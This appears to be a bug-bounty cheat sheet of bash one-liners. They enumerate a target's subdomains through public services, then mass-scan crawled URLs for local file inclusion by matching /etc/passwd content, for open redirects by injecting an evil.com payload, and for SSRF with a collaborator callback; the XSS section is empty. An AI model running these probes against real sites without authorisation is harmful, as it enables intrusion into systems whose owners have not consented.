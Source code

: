 ```bash
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u

**from Archive
curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u

**from JLDC
curl -s "https://jldc.me/anubis/subdomains/target.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u

**from crt.sh
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u

**from ThreatMiner
curl -s "https://api.threatminer.org/v2/domain.php?q=target.com&rt=5" | jq -r '.results[]' |grep -o "\w.*target.com" | sort -u

**from Anubis
curl -s "https://jldc.me/anubis/subdomains/target.com" | jq -r '.' | grep -o "\w.*target.com"

**from ThreatCrowd
curl -s "https://www.threatcrowd.org/searchApi/v2/domain/report/?domain=target.com" | jq -r '.subdomains' | grep -o "\w.*target.com"

**from HackerTarget
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"

**from AlienVault
curl -s "https://otx.alienvault.com/api/v1/indicators/domain/tesla.com/url_list?limit=100&page=1" | grep -o '"hostname": *"[^"]*' | sed 's/"hostname": "//' | sort -u

**from Censys
censys subdomains target.com

**from subdomain center
curl "https://api.subdomain.center/?domain=target.com" | jq -r '.[]' | sort -u
```
---
**LFI**
```bash
cat targets.txt | (gau || hakrawler || waybackurls || katana) |  grep "=" |  dedupe | httpx -silent -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```bash
**Open Redirect**
```bash
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```
```bash
cat subs.txt | (gau || hakrawler || waybackurls || katana) | grep "=" | dedupe | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```
**SSRF**
```bash
cat urls.txt | grep "=" | qsreplace "burpcollaborator_link" >> tmp-ssrf.txt; httpx -silent -l tmp-ssrf.txt -fr 
```
**XSS**
> Knoxss mass hunting
```bash
```